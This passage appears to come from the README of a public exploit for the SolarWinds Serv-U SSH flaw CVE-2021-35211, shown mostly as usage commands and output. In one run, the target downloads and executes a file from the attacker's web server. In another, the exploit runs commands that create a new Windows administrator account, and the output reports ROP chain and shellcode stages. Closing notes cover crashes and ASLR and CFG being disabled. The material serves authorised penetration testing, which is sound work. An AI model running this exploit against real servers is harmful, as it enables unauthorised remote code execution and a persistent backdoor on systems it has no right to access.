 You should see something like this in your listener:

```
192.168.0.144 - - [22/Oct/2021 12:28:24] "GET /calc.exe HTTP/1.1" 200 -
```

The target will execute `calc.exe` and restart the Serv-U service to allow users to start connecting again. Note that the executable will not present a window, but if you run this example you should see `wincalc.exe` in Task Manager.

#### Command execution mode
On success, runs a command on the target. Run like so:

```
% python3 serv-u-exploit2.py example.com exec 'net user bishopfox r34LLy.g00d_p4ssW0rd /add & net localgroup administrators bishopfox /add'
[+] Targeting example.com:22
[+] Setting up exploit payload buffer
[+] Constructing ROP chain
[+] Adding shellcode
[+] Spraying Serv-U-FTP server @ example.com:22
[+] Sending exploit trigger payload...
[+] Done! Sometimes it takes a few runs to work - try again if it failed.
```

### Credits

* The Microsoft researchers who fuzzed the vuln: https://www.microsoft.com/security/blog/2021/09/02/a-deep-dive-into-the-solarwinds-serv-u-ssh-vulnerability/
* @NattiSamson did the PoC on which my code is based: https://github.com/NattiSamson/Serv-U-CVE-2021-35211/blob/main/CVE-2021-35211_PoC.py

### Final thoughts
This exploit does tend to crash the remote process, unfortunately. Generally it restarts and I'm trying to see if I can make it more stable, but until then please remember: check your rules of engagement and caveat emptor.

The fact that ASLR was disabled on the Serv-U dll was crazy lucky and saved a lot of hassle. 

Other mitigations, such as Control Flow Guard ("CFG"), were also disabled. This again made it easy to write an exploit without having to work around restricted access to critical functions, such as GetProcAddress().

It's worth pointing out that the method I use to calculate the address of the ROP stack can, on occasion, generate an address that isn't 64-bit aligned. As a result, when GetProcAddress() reaches a MOVAPS instruction (which requires memory addresses to be aligned) the exploit crashes. To make the exploit more reliable, one solution might be to force the ROP stack to be located at an aligned address; this would require some wrangling of the ROP payload and is left as an exercise for the reader. 
